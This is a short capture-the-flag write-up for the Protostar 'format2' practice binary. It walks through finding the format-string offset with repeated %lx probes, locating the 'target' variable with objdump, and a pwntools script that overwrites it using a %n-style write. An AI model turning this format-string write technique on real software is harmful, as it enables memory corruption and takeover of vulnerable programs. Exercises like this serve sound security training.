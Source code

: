 We note something: 

  + Bug is printf funtion
  + target == 64 to pass
  + Input in buf

That mean we have to finding offset by this way.
```
┌──(kali㉿kali)-[~/Pwn/Protostar/Format2]
└─$ ./format2                                                                                                 130 ⨯
ABCDEFGH|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx
ABCDEFGH|200|f7eb4580|8049191|44434241|48474645|786c257c|786c257c|786c257c|786c257c|786c257c|786c257c
target is 0 :(

```
We find offset = 4

Find target address
```
┌──(kali㉿kali)-[~/Pwn/Protostar/Format2]
└─$ objdump -t format2 |grep target
0804c028 g     O .bss   00000004              target
```



So we can write this exloit ;
```
from pwn import * 

BIN = "./format2"

target = 0x0804c028


def exploit():
	payload = p32(target) + b"%60d" + b"%4$ln"
	io.sendline(payload)
	io.interactive()

io = process(BIN)
exploit()


# ABCDEFGH|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx|%lx
#objdump -t format2 |grep target 000000000060105c

# python2 -c 'print "\x5c\x10\x60\x00\x00\x00\x00\x00" + "%6$ln"' | ./format

```
When using payload = p32(target) + b"%4$ln" this program return target is 4 :( is mean we change target from 0 to 4 by 4 bytes of address target. That mean we have to write 60 bytes to enought.
